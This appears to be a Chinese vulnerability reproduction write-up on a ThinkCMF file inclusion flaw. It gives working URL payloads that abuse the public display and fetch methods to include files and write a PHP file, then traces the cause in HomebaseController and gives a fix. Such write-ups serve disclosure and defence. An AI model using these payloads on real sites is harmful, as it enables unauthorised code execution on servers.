


# [漏洞复现]：ThinkCMF框架任意内容包含漏洞
### 漏洞详情
ThinkCMF是一款基于ThinkPHP+MySQL开发的中文内容管理框架。

**利用前提**
```
ThinkCMF X1.6.0

ThinkCMF X2.1.0

ThinkCMF X2.2.0

ThinkCMF X2.2.1

ThinkCMF X2.2.2
```
### 漏洞复现

1. 通过构造a参数的display方法，实现任意内容包含
payload:`http://127.0.0.1/cmfx-X2.2.2/?a=display&templateFile=README.md`



2. 通过构造a参数的fetch方法，实现任意文件写入，复现过程中有时能写入，有时无法写入。
payload:`?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>`



### 漏洞分析
首先打开index.php，找到项目路径，定位到application

```php
//开启调试模式
define("APP_DEBUG", true);
//网站当前路径
define('SITE_PATH', dirname(__FILE__)."/");
//项目路径，不可更改
define('APP_PATH', SITE_PATH . 'application/');
//项目相对路径，不可更改
define('SPAPP_PATH',   SITE_PATH.'simplewind/');
//
define('SPAPP',   './application/');
//项目资源目录，不可更改
define('SPSTATIC',   SITE_PATH.'statics/');
//定义缓存存放路径
define("RUNTIME_PATH", SITE_PATH . "data/runtime/");
//静态缓存目录
define("HTML_PATH", SITE_PATH . "data/runtime/Html/");
```
打开`application/Portal/Controller/IndexController`，发现display方法，继续追踪HomebaseController

```php
use Common\Controller\HomebaseController; 
/**
 * 首页
 */
class IndexController extends HomebaseController {
	
    //首页 小夏是老猫除外最帅的男人了
	public function index() {
    	$this->display(":index");
    }

}
```

追踪HomebaseController，定位到display方法，display函数的作用是加载模板和页面输出，templateFile为模板文件地址，charset为模板字符集，contentType为输出类型，content为输出内容。另外存在public权限的函数还有fetch，fetch函数的作用是获取页面内容，templateFile为模板文件，content为输出内容，prefix为模板缓存前缀。


### 防御
将HomebaseController.class.php和AdminbaseController.class.php类中display和fetch函数的修饰符改为protected。
**参考**

https://www.freebuf.com/vuls/217586.html

https://mp.weixin.qq.com/s/P3KZ9zXvb94IDFf07A9ItA